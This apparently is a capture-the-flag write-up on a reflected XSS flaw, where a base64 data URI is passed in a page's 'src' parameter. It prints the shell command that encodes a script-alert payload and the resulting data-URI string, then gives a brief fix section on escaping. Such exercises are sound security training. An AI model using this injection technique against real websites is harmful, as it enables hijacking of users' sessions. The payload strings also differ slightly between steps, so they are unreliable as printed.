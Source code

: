 # XSS Reflected Media

## Exploit
On the homepage we can see a link to `${URL}/index.php?page=media&src=nsa`. The website tells us wrong answer if we just try to insert xss code in the URL.
Instead we'll try passing a [data URI scheme](https://en.wikipedia.org/wiki/Data_URI_scheme) in src, we'll use base64 as this is in the URL
```shell
$  echo -n "<script>alert("H4X3D")</script>" | base64
PHNjcmlwdD5hbGVydChINFgzRCk8L3NjcmlwdD4=
```

`data:text/html;base64,PHNjcmlwdD5hbGVydChINFgzRCk8L3NjcmlwdD4K"
We can now see the flag

## Fix
XSS vulnerabilities allow full control over the website and the theft of any sensitive information in the user session. To prevent XSS bugs developers should use whatever escaping feature their framework provide.
